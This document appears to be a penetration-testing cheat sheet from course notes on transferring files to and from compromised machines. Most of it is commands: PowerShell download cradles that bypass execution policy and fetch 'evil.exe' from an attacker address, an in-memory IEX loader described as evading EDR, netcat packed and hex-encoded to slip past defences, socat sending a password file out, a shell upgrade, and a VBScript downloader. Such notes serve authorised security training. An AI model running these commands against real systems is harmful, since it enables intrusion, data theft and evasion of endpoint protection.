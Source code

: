 ### Using third-party file sharing links
https://www.file.io/

### Powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')" 
powershell -NoProfile -ExecutionPolicy Bypass -NoLogo -NonInteractive -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

d_f.ps1
$webclient = New-Object System.Net.WebClient
$url = "http://10.11.0.4/evil.exe"
$file = "path\new.exe"
$webclient.DownloadFile($url,$file)
PS:IEX (New-Object System.Net.WebClient).DownloadString('path/d_f.ps1') -- Cant be detected by EDR
```
```
upx -9 nc.exe(compress to be smaller)
exe2hex -x nc.exe -p nc.cmd(convert the file to hex and instruct powershell.exe to assemble it back into binary)
```

### SCP Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Pure-ftpd (Linux - Linux)
#### install
sudo apt update && sudo apt install pure-ftpd  
sudo groupadd ftpgroup  
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
sudo pure-pw useradd offsec -u kali -d /ftphome  
sudo pure-pw mkdb  
cd /etc/pure-ftpd/auth/  
sudo ln -s ../conf/PureDB 60pdb  
sudo mkdir -p /ftphome  
sudo chown -R ftpuser:ftpgroup /ftphome/  
sudo systemctl restart pure-ftpd  
#### connect
ftp 10.11.0.4  
bye  
#### Upgrading a Non-Interactive Shell
python -c 'import pty; pty.spawn("/bin/bash")'  
#### mode
bin(binary mode)
ascii(ascii mode)
#### transfer files
```
Authentication first
1. attack machine put files under ftphome dir
2. get filename/put filename
```

### vbs
usage: cscript wget.vbs http://10.11.0.4/evil.exe evil.exe(outfile)
```
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1) 
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
 Err.Clear 
 Set http = Nothing 
 Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
 If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
 If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
 If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
 http.Open "GET", strURL, False 
 http.Send 
 varByteArray = http.ResponseBody 
 Set http = Nothing 
 Set fs = CreateObject("Scripting.FileSystemObject") 
 Set ts = fs.CreateTextFile(StrFile, True) 
 strData = "" 
 strBuffer = "" 
 For lngCounter = 0 to UBound(varByteArray) 
 ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
 Next 
 ts.Close
```

